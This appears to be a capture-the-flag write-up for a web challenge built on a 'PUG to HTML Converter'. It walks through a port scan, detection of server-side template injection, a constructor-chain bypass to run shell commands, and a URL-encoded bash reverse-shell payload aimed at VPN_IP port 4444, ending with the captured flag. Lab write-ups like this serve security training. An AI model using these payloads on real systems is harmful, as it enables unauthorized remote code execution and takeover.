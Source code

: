 ```yaml
---
sticker: lucide//book-template
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 5000 | HTTP    |



# RECONNAISSANCE
---

Let's check the website out:


![](Pasted%20image%2020250606121148.png)

We are dealing with something called `PUG to HTML Converter`, **Pug** (formerly called Jade) is a server-side templating engine for Node.js that uses indentation and terse syntax to generate HTML. Under the hood, Pug compiles these templates into JavaScript functions that build an HTML string. Any interpolation tags, like `#{…}` (escaped) or `!{…}` (unescaped), are evaluated as JavaScript expressions at render time.

Let's check an exploit for this: 

![](Pasted%20image%2020250606121717.png)

We got RCE via SSTI, let's proceed to exploitation.

# EXPLOITATION
---


First of all, we should send the request to our proxy, I'll be using Caido:

![](Pasted%20image%2020250606121819.png)

As seen, we got a `template` parameter, let's try doing the SSTI:

```
template=doctype+html%0Ahead%0A++title+Test%0Ah1+Result%3A+%23%7B7*7%7D
```

![](Pasted%20image%2020250606122035.png)


As seen, we get:

```html
<pre>&lt;!DOCTYPE html&gt;&lt;head&gt;&lt;title&gt;Test&lt;/title&gt;&lt;/head&gt;&lt;h1&gt;Result: 49&lt;/h1&gt;</pre>
```


That means `7*7` is being evaluated so, SSTI works, let's try reading more files and even attempt the RCE, let's try using the `require` function:

```js
template=h1+%23%7Brequire%28%27child_process%27%29.execSync%28%27id%27%29.toString%28%29%7D
```


![](Pasted%20image%2020250606122552.png)

Require seems to be disabled on here, we can do a little trick with the `constructor` function:

```js
template=h1+%23%7Bthis.constructor.constructor%28%22return+process%22%29%28%29.mainModule.require%28%27child_process%27%29.execSync%28%27id%27%29.toString%28%29%7D
```

![](Pasted%20image%2020250606122635.png)

There we go, `rce` works, let's send ourselves a reverse shell now:

```js
template=h1+%23%7Bthis.constructor.constructor%28%22return+process%22%29%28%29.mainModule.require%28%27child_process%27%29.execSync%28%22bash+-c+%27bash+-i+%3E%26+/dev/tcp/VPN_IP/4444+0%3E%261%27%22%29%7D
```

![](Pasted%20image%2020250606122827.png)

Nice, we got our shell, no need to perform privilege escalation, we can simply read our flag:

```
find / -type f -name "flag.txt" 2>/dev/null\
/usr/src/app/flag.txt

user@774c7a0d6226:/tmp$ cat /usr/src/app/flag.txt
flag{3cfca66f3611059a0dfbc4191a0803b2}
```

![](Pasted%20image%2020250606123957.png)

